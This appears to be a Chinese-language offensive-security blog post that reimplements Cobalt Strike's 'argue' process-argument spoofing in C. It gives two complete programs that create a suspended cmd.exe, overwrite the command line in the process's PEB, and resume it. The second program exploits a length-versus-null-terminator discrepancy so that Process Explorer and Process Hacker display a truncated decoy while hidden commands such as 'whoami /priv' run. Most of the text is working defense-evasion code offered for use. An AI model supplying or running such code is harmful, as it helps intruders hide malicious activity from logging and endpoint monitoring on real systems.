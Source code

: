 # CobaltStrike Argue命令实现

## 简介

在Cobalt Strike 3.13版本的时候引入了一个进程参数欺骗的技术\(虽然现在都4.0了\)，可以使进程在创建时记录的参数与实际运行时不同，windows系统从peb的commandline中读取参数，并对参数做相应的处理，在线程未初始化完成前，我们可以修改参数，并让进程执行它，在操作上几乎与命令行伪装一样，只是有一些流程上的不同，这里不过多赘述详见[伪装命令行规避检测](fake-commandline.md)。

## 利用流程

1. 创建一个挂起的cmd或powershell进程。
2. 读取peb内的RTL\_USER\_PROCESS\_PARAMETERS结构体。
3. 定位到commandline的buffer指针。
4. 修改buffer的存放的commandline。

## 代码实现

```text
#include <stdio.h>
#include <Windows.h>
#include <winternl.h>


typedef DWORD(*pNtQueryInformationProcess) (HANDLE, PROCESSINFOCLASS, PVOID, ULONG, PULONG);

int main()
{

	ULONG lenght = 0;
	HMODULE hModule;
	PROCESS_BASIC_INFORMATION ProcessInformation;
	pNtQueryInformationProcess NtQueryInformationProcess;
	wchar_t CommandLine[] = L"C:\\Windows\\system32\\cmd.exe /c dir";
	//.&& whoami / priv && pause"
	wchar_t CurrentDirectory[] = L"C:\\Windows\\system32\\";

	hModule = LoadLibraryA("ntdll.dll");

	STARTUPINFOA si = { 0 };
	si.cb = sizeof(si);
	PROCESS_INFORMATION pi = { 0 };

	CreateProcessA(NULL, (LPSTR)"C:\\Windows\\system32\\cmd.exe /c whoami", NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);

	NtQueryInformationProcess = (pNtQueryInformationProcess)GetProcAddress(hModule, "NtQueryInformationProcess");
	NtQueryInformationProcess(pi.hProcess, ProcessBasicInformation, &ProcessInformation, sizeof(ProcessInformation), &lenght);
	
	RTL_USER_PROCESS_PARAMETERS rupp = { 0 };
	PEB peb = { 0 };

	ReadProcessMemory(pi.hProcess, ProcessInformation.PebBaseAddress, &peb, sizeof(peb), NULL);
	ReadProcessMemory(
		pi.hProcess,
		peb.ProcessParameters,
		&rupp,
		sizeof(RTL_USER_PROCESS_PARAMETERS)
		, NULL);

	WriteProcessMemory(pi.hProcess, (LPVOID)rupp.CommandLine.Buffer, CommandLine, sizeof(CommandLine), NULL);
	ResumeThread(pi.hThread);

	return 0;
}
```

执行了修改后的参数: 

![](../.gitbook/assets/image%20%28112%29.png)

## 扩展利用

前面我们说了process hacker和process explorer等进程监视工具会从peb内直接读取commandline的内容，这时就有小朋友要问了，那我们这么做不是会被发现吗\(不皮了不皮了\)。

实际上这么做确实会被此类工具发现明显异常，但由于操作系统读取数据和此类工具读取数据存在一定差异，我们可以利用这样的读取差异来隐藏我们真实的参数。

由于进程监视工具\(啃过源码\)会先读取commandline的length，根据length的值来读取commandline.buffer的内容，而操作系统则由是通过'\x00'来判断字符串是否结束。

这时我们可以写入一个比length更长的命令让监视工具的读取不完全，那么我们就可以在此类工具中伪装commandline。

### 代码

```text
#include <stdio.h>
#include <Windows.h>
#include <winternl.h>


typedef DWORD(*pNtQueryInformationProcess) (HANDLE, PROCESSINFOCLASS, PVOID, ULONG, PULONG);

int main()
{

	ULONG lenght = 0;
	HMODULE hModule;
	PROCESS_BASIC_INFORMATION ProcessInformation;
	pNtQueryInformationProcess NtQueryInformationProcess;
	wchar_t CommandLine[] = L"C:\\Windows\\system32\\cmd.exe /c dir . && whoami /priv && pause";

	wchar_t CurrentDirectory[] = L"C:\\Windows\\system32\\";

	hModule = LoadLibraryA("ntdll.dll");

	STARTUPINFOA si = { 0 };
	si.cb = sizeof(si);
	PROCESS_INFORMATION pi = { 0 };

	CreateProcessA(NULL, (LPSTR)"C:\\Windows\\system32\\cmd.exe /c whoami", NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);

	NtQueryInformationProcess = (pNtQueryInformationProcess)GetProcAddress(hModule, "NtQueryInformationProcess");
	NtQueryInformationProcess(pi.hProcess, ProcessBasicInformation, &ProcessInformation, sizeof(ProcessInformation), &lenght);
	
	RTL_USER_PROCESS_PARAMETERS rupp = { 0 };
	PEB peb = { 0 };

	ReadProcessMemory(pi.hProcess, ProcessInformation.PebBaseAddress, &peb, sizeof(peb), NULL);
	ReadProcessMemory(
		pi.hProcess,
		peb.ProcessParameters,
		&rupp,
		sizeof(RTL_USER_PROCESS_PARAMETERS)
		, NULL);

	WriteProcessMemory(pi.hProcess, (LPVOID)rupp.CommandLine.Buffer, CommandLine, sizeof(CommandLine), NULL);
	ResumeThread(pi.hThread);

	return 0;
}
```

### 实现效果

![process explorer](../.gitbook/assets/image%20%28111%29.png)

![process hacker](../.gitbook/assets/image%20%28109%29.png)

![dir . &amp;&amp; whoami /priv &amp;&amp; pause](../.gitbook/assets/image%20%28110%29.png)

## LINKS

{% embed url="https://app.gitbook.com/@idiotc4t/s/idiotc4t-s-blog/~/drafts/-M9J1qlIVoEe-n1mUrUo/defense-evasion/fake-commandline" %}

{% embed url="https://blog.xpnsec.com/how-to-argue-like-cobalt-strike/" %}





